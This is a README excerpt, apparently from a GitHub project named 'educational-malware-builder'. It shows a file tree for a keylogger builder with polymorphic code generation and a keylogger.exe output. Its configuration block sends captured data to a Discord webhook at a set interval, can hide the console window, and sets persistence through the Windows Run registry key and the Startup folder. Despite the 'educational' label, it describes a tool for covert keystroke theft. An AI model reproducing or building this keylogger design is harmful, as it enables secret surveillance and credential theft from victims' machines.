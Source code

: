 ## 📁 Project Structure

```
educational-malware-builder/
├── main.py                 # Main application entry point
├── requirements.txt        # Python dependencies
├── README.md              # This file
├── QUICK_START.txt        # Quick setup guide
├── install_requirements.bat # Automated setup script
├── start_builder.bat      # Application launcher
├── test_setup.bat         # Dependency tester
├── config/                # Configuration management
│   ├── __init__.py
│   └── settings.py
├── generators/            # Code generation modules
│   ├── __init__.py
│   ├── source_generator.py
│   └── polymorphism.py
├── builders/              # Build system
│   ├── __init__.py
│   ├── compiler.py
│   └── uninstaller.py
├── ui/                    # User interface
│   ├── __init__.py
│   ├── display.py
│   └── menu.py
├── utils/                 # Utility functions
│   ├── __init__.py
│   └── logger.py
└── build_output/          # Generated files
    ├── keylogger.exe      # Final executable
    └── uninstall.bat      # Removal script
```

## 🔧 Configuration

### Settings File
Key configuration options in `config/settings.py`:

```python
# Webhook Configuration
webhook_url = "https://discord.com/api/webhooks/your-webhook-url"

# Build Settings
flush_interval = 30  # Seconds between data transmission
debug_mode = False   # Show console window

# Persistence Options
registry_key = "Software\\Microsoft\\Windows\\CurrentVersion\\Run"
startup_folder = "%APPDATA%\\Microsoft\\Windows\\Start Menu\\Programs\\Startup"
```
